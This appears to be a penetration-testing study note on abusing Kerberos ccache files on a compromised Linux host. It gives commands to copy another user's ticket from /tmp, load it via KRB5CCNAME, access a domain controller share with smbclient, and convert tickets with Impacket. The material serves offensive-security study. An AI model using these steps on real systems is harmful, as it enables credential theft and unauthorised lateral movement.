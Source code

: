 ```yaml
---
tags:
  - Kerberos
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```

To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.
#### Importing the ccache File into our Current Session

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```
```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]]

```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```


### Using Tools

See [[Evil-WinRM#Kerberos]] and [[1. SSH Tunnelling#Chisel]]


## Converting Between Windows and Linux Ticket Files

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [[Impacket#Impacket Ticket Converter]] to convert them.

Ccache to `Kirbi`

```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.